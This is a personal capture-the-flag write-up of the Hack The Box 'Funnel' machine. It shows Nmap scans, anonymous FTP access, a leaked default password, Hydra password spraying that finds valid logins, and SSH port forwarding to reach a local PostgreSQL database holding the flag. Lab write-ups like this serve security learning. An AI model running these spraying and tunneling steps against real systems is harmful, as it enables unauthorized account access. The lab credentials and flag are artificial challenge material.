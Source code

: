 # Funnel

> 10.129.228.195

## Nmap
```
nmap 10.129.228.195
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-13 19:33 EDT
Nmap scan report for 10.129.228.195
Host is up (0.039s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
```
```
nmap -sS -sV -sC -O -p 21,22 -T4 10.129.228.195
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-13 19:35 EDT
Nmap scan report for 10.129.228.195
Host is up (0.043s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.8 (96%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.5 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 - 5.4 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.02 seconds
```

## FTP Enumeration
```
nmap --script ftp-anon -p 21 10.129.228.195
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-13 19:37 EDT
Nmap scan report for 10.129.228.195
Host is up (0.040s latency).

PORT   STATE SERVICE
21/tcp open  ftp
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    2 ftp      ftp          4096 Nov 28  2022 mail_backup

Nmap done: 1 IP address (1 host up) scanned in 0.60 seconds
```
## FTP Login
1. Logged in as `anonymous` (no password/null password)
2. Did a `pwd` and was in a root directory for ftp (not the actual root)
3. Did an `ls` and saw there was one subdir: `mail_backup`
4. `cd` into the subdir and an `ls` revealed two files that I downloaded:

```
ftp> ls
229 Entering Extended Passive Mode (|||6644|)
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp         58899 Nov 28  2022 password_policy.pdf
-rw-r--r--    1 ftp      ftp           713 Nov 28  2022 welcome_28112022
226 Directory send OK.

ftp> get password_policy.pdf
local: password_policy.pdf remote: password_policy.pdf
229 Entering Extended Passive Mode (|||38072|)
150 Opening BINARY mode data connection for password_policy.pdf (58899 bytes).
100% |**************************************************************************************************************| 58899      695.91 KiB/s    00:00 ETA
226 Transfer complete.
58899 bytes received in 00:00 (474.45 KiB/s)

ftp> get welcome_28112022
local: welcome_28112022 remote: welcome_28112022
229 Entering Extended Passive Mode (|||56481|)
150 Opening BINARY mode data connection for welcome_28112022 (713 bytes).
100% |**************************************************************************************************************|   713       13.87 MiB/s    00:00 ETA
226 Transfer complete.
713 bytes received in 00:00 (34.43 KiB/s)
```

## password_policy.pdf
- Doc says: "...the default password of “funnel123#!#” must be changed immediately."
- The `welcome` file is the same as the `password` file.

## Users
- Need for find a list of users on the target to try the password.
- Or... password spraying: "Password spraying is a type of brute force attack which involves a malicious actor attempting to use the same password on multiple accounts before moving on to try another one."

```
hydra -L /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt -p 'funnel123#!#' 10.129.228.195 ftp                                     
[21][ftp] host: 10.129.228.195   login: ftp   password: funnel123#!#
1 of 1 target successfully completed, 1 valid password found
```

- Logged in with that user and didn't get anywhere. Used a different username list.
- Ran `hydra` and it crashed the target. Had to reset and tweak the timing (`-t`) of `hydra`.

> reset: 10.129.34.254

```
hydra -L /usr/share/wordlists/rockyou.txt -p 'funnel123#!#' 10.129.34.254 ftp -I -t 3
[21][ftp] host: 10.129.34.254   login: christine   password: funnel123#!#
```

## SSH
- used the creds `christine:funnel123#!#` to login via ssh.
- I could login but that didn't get me anywhere

## Enumeration
> This is from the walkthrough doc
- From this point on, we have complete access as the christine user on the target machine, and can start enumerating it for potential files or services that we can explore further.
- A crucial command at this point in time is the `ss` command ([reference](../../04_Enumeration/enum_sockets.md)), which stands for `socket statistics`, and it can be used to check which ports are listening locally on a given machine.
```
ss -tln
# -l: Display only listening sockets.
# -t: Display TCP sockets.
# -n: Do not try to resolve service names.
```
- If there are ports listening on the system, they will be listed by `ss`.
- In our scenario, one of the results was: `127.0.0.1:5432`.

## PostgreSQL
- TCP port is open 5432 (do a better nmap scan!! The question to answer on HTB led me to this port; I didn't find it)
- That port is used by PostgreSQL and it only listens only on localhost so if you want to connect remotely, you have to use ssh...
- Since you can't access PostgreSQL from the local machine, you will have to create a tunnel with local port forwarding
- Ref: https://www.postgresql.org/docs/current/ssh-tunnels.html

### SSH Tunneling to PostgreSQL
- Following the reference link above, I did: 
```
ssh -L 63333:localhost:5432 christine@10.129.34.254
psql -h localhost -p 63333 --username=christine postgres

# Result: postgres prompt...

postgres=# 
postgres-# \?     # for help
postgres-# \l     # list all databases
                                                        List of databases                                                                                   
   Name    |   Owner   | Encoding | Locale Provider |  Collate   |   Ctype    | ICU Locale | ICU Rules |    Access privileges                               
-----------+-----------+----------+-----------------+------------+------------+------------+-----------+-------------------------                           
 christine | christine | UTF8     | libc            | en_US.utf8 | en_US.utf8 |            |           |                                                    
 postgres  | christine | UTF8     | libc            | en_US.utf8 | en_US.utf8 |            |           |                                                    
 secrets   | christine | UTF8     | libc            | en_US.utf8 | en_US.utf8 |            |           |                                                    
 template0 | christine | UTF8     | libc            | en_US.utf8 | en_US.utf8 |            |           | =c/christine           +                           
           |           |          |                 |            |            |            |           | christine=CTc/christine                            
 template1 | christine | UTF8     | libc            | en_US.utf8 | en_US.utf8 |            |           | =c/christine           +                           
           |           |          |                 |            |            |            |           | christine=CTc/christine                            
(5 rows)  

postgres-# \c secrets      # connect to database
psql (16.2 (Debian 16.2-1), server 15.1 (Debian 15.1-1.pgdg110+1))                                                                                          
You are now connected to database "secrets" as user "christine". 

secrets-# \dt               # list all database tables
 public | flag | table | christine

secrets=# SELECT * FROM flag;
 cf277664b1771217d7006acdea006db1

```

![image](https://github.com/GregKedrovsky/Hacking/assets/26492233/f3392c77-027b-497e-abd6-4b6218651a92)

